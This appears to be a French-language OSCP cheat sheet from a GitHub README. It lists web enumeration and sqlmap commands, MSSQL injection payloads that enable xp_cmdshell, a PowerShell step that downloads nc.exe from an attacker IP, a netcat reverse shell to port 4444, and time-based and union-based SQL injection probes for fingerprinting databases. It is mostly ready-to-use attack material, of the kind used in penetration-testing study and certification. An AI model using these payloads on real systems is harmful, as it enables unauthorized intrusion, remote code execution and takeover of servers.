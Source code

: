 <img src="https://github.com/florianges/Simple-OSCP-cheat-sheet/assets/64069514/6ada07ef-1fa7-4bad-83ff-78d636d8a6b5" height="180">

## Énumération des pages web :
dirb http://[IP] -X .php,.html,.txt  
gobuster --url [IP] dir --wordlist /usr/share/wordlists/dirb/big.txt -x php,txt,html  
## Identification de CMS :
whatweb [URL]  
python3 cmseek.py -u [URL]  
## Recherche des paramettres GET :
wfuzz --hh=[SIZE] -w [WORDLIST] [URL].php?[PARAM_NAME]=test  
## Recherche des fichiers backup :
dirb http://[fichier a tester] /usr/share/wordlists/dirb/mutations_common.txt -t
## Injection SQL :
sqlmap -u [URL] (--dbs / --tables -D [DATABASE] / --columns -D [DATABASE] -T [TABLENAME])  
sqlmap -r [FILE] (--dbs / --tables -D [DATABASE] / --columns -D [DATABASE] -T [TABLENAME])   

**commande injection in MSQL:**  
admin' UNION SELECT 1,2,3,4,5; EXEC sp_configure 'show advanced options', 1--+  
admin' UNION SELECT 1,2,3,4,5; RECONFIGURE--+  
admin' UNION SELECT 1,2,3,4,5; EXEC sp_configure 'xp_cmdshell', 1--+  
admin' UNION SELECT 1,2,3,4,5; RECONFIGURE--+  
EXEC xp_cmdshell 'powershell.exe wget http://[IP]/nc.exe -OutFile c:\\Users\Public\\nc.exe'  
EXEC xp_cmdshell 'c:\\Users\Public\\nc.exe -e cmd.exe [IP] 4444'  
  
### Detection de DB: 
**Dtection de DB (Union select)**  
select @@version; ==> db mysql ou mssql microsoft  
select version(); ==> db postgress  
select sql from sqlite_master; ==> db sqlite  
select versionnumber from sysibm.sysversions; ==> db2 IBM  
select version from v$instance; ==> db oracle  
  
**Detection de DB (Time Based)**  
OR SLEEP(5) ==> db mysql  
waitfor delay '00:00:05'​ ==> mssql microsoft  
or pg_sleep(5) ==> db postgress  
OR 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2)))) ==> db sqlite  
OR 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10) ==> db Oracle  
